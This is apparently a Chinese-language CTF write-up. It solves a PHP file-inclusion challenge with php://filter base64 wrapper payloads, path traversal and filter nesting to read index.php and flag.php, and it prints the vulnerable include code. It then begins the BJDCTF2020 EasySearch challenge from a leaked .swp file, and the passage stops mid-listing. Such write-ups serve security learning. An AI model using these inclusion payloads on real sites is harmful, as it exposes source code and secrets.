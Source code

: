 *   文件包含，试试PHP伪协议，所以，我们尝试读取`index.php`源码。

    ```
    ?category=php://filter/read=convert.base64-encode/resource=index 
    ```

*   base64解码得到源码，就看PHP代码部分。

```
<?php
				$file = $_GET['category'];

				if(isset($file))
				{
					if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){
						include ($file . '.php');
					}
					else{
						echo "Sorry, we currently only support woofers and meowers.";
					}
				}
				?> 
```

*   可以看到，有一个过滤，`category`只能为woofers、meowers、index。满足条件就能包含文件。

*   同时,猜测flag的位置，不难找到有一个 flag.php(猜一下，访问有响应)。所以，最终目的就是用伪协议读取 flag.php。

*   第一个想到的就是目录穿越，所以直接以下，解码就行。

    ```
    ?category=php://filter/read=convert.base64-encode/resource=meowers/../flag 
    ```

*   但网上我看到的都是伪协议嵌套，没想到还有这种操作。原理是前面的

    ```
    ?category=php://filter/read=convert.base64-encode/woofers/resource=flag 
    ```

*   最后想说，函数自己多想想。

### 4、[BJDCTF2020]EasySearch

*   首先打开一个登录框。首先就会测试一下sql注入，不过都没反应。也没有其它提示。这时候很可能就是源码泄露。
*   扫一下。字典好的能扫到`index.php.swp`，显然我没扫到，死在了第一步。而`.swp`的生成是因为文件编辑比如说`vi`时的异常退出，[了解一下](https://blog.csdn.net/qq_42200183/article/details/81531422)
*   再来看源码

```
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
```